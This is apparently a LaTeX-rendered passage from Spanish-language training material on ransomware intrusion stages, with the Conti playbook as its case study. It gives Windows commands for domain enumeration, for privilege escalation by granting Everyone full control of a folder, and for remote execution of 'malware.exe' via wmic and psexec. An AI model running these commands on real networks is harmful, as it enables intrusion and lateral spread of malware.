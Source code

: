 \documentclass[
  letterpaper,
]{report}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\AttributeTok}[1]{\textcolor[rgb]{0.40,0.45,0.13}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.37,0.37,0.37}{#1}}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.28,0.35,0.67}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{#1}}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.37,0.37,0.37}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.13,0.47,0.30}{#1}}
\begin{document}
\subsection{3.1. Discovery}\label{discovery}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# Enumeración de dominio}
\FunctionTok{Get{-}ADComputer} \OperatorTok{{-}}\NormalTok{Filter }\OperatorTok{*}
\NormalTok{arp }\OperatorTok{{-}}\NormalTok{a}
\NormalTok{net view}
\end{Highlighting}
\end{Shaded}

\subsection{3.2. Privilege Escalation}\label{privilege-escalation}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{\# Abuso de servicios débiles}
\NormalTok{sc query }\KeywordTok{\textgreater{}}\NormalTok{ services.txt}
\NormalTok{icacls C:\textbackslash{}Windows\textbackslash{}Temp }\AttributeTok{/grant}\NormalTok{ Everyone:F}
\end{Highlighting}
\end{Shaded}

\subsection{3.3. Lateral Movement}\label{lateral-movement}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{\# WMI para ejecución remota}
\NormalTok{wmic }\AttributeTok{/node:}\NormalTok{192.168.1.10 process call create }\StringTok{"malware.exe"}
\NormalTok{psexec \textbackslash{}\textbackslash{}192.168.1.10 }\AttributeTok{{-}u}\NormalTok{ admin }\AttributeTok{{-}p}\NormalTok{ passwd cmd.exe}
\end{Highlighting}
\end{Shaded}

\section{4. Caso: Conti Playbook}\label{caso-conti-playbook}

Documentos filtrados muestran: - Uso de \texttt{PsExec} para movimiento
lateral - \texttt{BloodHound} para mapeo de AD - \texttt{Rubeus} para
kerberoasting
\end{document}
